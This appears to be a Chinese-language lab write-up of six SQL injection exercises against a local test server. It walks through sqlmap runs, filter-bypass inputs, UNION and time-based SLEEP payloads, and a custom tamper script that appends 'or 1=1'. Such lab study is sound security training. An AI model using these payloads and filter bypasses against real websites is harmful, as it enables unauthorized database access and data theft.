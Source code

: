 ```yaml
---
title: Mysql数据库-sql injection
categories:
- web
tags:
- web
---
```


## 案例一：
`http://192.168.2.131/sqli/example1.php?name=root`

## 手工判断是否有注入
一般来说，报错型注入是最好判断的。

通过**添加单引号**，页面返回内容，发现**和正常情况下不同**。虽然并没有报错，但可以用sqlmap检测一下。

通过添加 **+**，mysql中，+代表空格。
name=root+++，而网页显示正常，说明将注入的字符解析为空格了。

#### sqlmap工具检查
`sqlmap -u "http://192.168.2.131/sqli/example1.php?name=root" --dbs`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/1.PNG)
```
Parameter: name (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: name=root' UNION ALL SELECT NULL,CONCAT(CONCAT('qkxxq','KmpPokTYtZMOrkRgRUoPJDbxcbjTRzrokLLlMQen'),'qjvbq'),NULL,NULL,NULL-- PXHF
```

## 案例二：
`http://192.168.2.131/sqli/example2.php?name=root`
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/2.PNG)

- 首先用sqlmap检查下，结果一片标红。

- `http://192.168.2.131/sqli/example2.php?name=root/*aaa*/`

- `name=root%0a` \n换行符

- `name=root%09` \t

#### burp intruder观察响应
观察一下响应。手工判断有点慢，用burp判断下
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/3.PNG)

分为三种响应，一种是和原请求响应一样的；一种响应查询失败的；一种“error no space”

注意到

```
union select ---------“error no space”
union-------------查询失败
```

说明空格被过滤

- 添加空格转/**/脚本
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper space2comment.py --dbs
扫描失败

- 指定布尔型注入
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py -technique B --dbms mysql --level 5

- 添加一个参数--dbms mysql，指定使用的payloads。
`sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py --dbms mysql -v`
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?

```
Parameter: name (GET)
    Type: AND/OR time-based blind 基于时间的盲注
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'WCkk'='WCkk
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])

```
#### 删除sqlmap日志
rm -rf /root/.sqlmap/output/*

sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbs

#### 总结
sqlmap如果一开始扫描失败，如果需要再次尝试，需要清除一下日志，否则会直接引用历史扫描结果，不会再次扫描。

如果不指定数据库，或者注入类型，waf过滤的字符，就很容易扫描失败。
但这不代表并不存在注入。

## 案例三：

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/5.PNG)
经过intruder判断，和上一个案例，多过滤了`%0a`即\n换行符。

同样用时间盲注。
sqlmap -u "http://192.168.2.131/sqli/example3.php?name=root" --tamper=space2comment.py --dbms mysql --dbs

```
Parameter: name (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'nZha'='nZha

```
## 案例四：

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/6.PNG)
`http://192.168.2.131/sqli/example4.php?id=2`
注释被正确解析了，其他都都导致页面查询失败。

- sqlmap -u "http://192.168.2.131/sqli/example4.php?id=2" --dbms mysql --dbs

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: id=(SELECT (CASE WHEN (5063=5063) THEN 5063 ELSE 5063*(SELECT 5063 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6a71,0x6c4e495452554c4e514b6f53784f6c5a6b664e4d53674176646b4d4e4a4f52547850714663686d68,0x71766b7a71),NULL,NULL-- XTiX

```
## 案例五：
和上一个案例差不多。成功解析注释。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/7.PNG)

注入类型： Type: AND/OR time-based blind
sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbms mysql --dbs

## 案例六：

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/8.PNG)
%0a换行符、#注释符被正确解析。
错误提示：ERROR INTEGER REQUIRED

#### **选择与创建tamper脚本**
/usr/share/sqlmap/tamper目录下，有很多脚本可以帮助绕过过滤。

没有找到空格直接转换行符的脚本，于是观察一下空格转注释的脚本。运行sqlmap时候，用wireshark抓包一下。
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/9.PNG)

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/10.PNG)
确认空格转换为/**/，我们可以新建一个脚本，替换一下注释为换行符。
`cp space2comment.py space2newline.py`
`sed -i 's/\/\*\*\//%0a/g' space2newline.py`

- sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=space2newline.py --dbs 
失败了，于是尝试
?id=2%0Aand%0A1=1 一切正常
?id=2%0Aand%0A1=2 查询失败

#### **源代码**
黑盒测试不知道过滤条件，做不出了，于是看下源代码。

下面这条源代码还蛮好懂的，`^$`在正则表达式中，代表开头和结尾。

`^b`，表示以b开头；`b$`表示以b结尾。
```
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

#### **重写一个tamper脚本**
sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=addTrue.py --dbs 


这次成功了，基于时间的盲注。
```
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)-- jExG

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x6c6c5a494a6370686e4a6d5662726c49796e686a7455456745526e48654278634d57426b7467746a,0x7170626271),NULL,NULL-- RmtZ
```
## `addTrue.py`

```
#coding:utf-8
#!/usr/bin/env python

"""
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT id FROM users or 1=1'
    """

    retVal = payload

    if payload:
        retVal = payload+ " or 1=1"

    return retVal
```

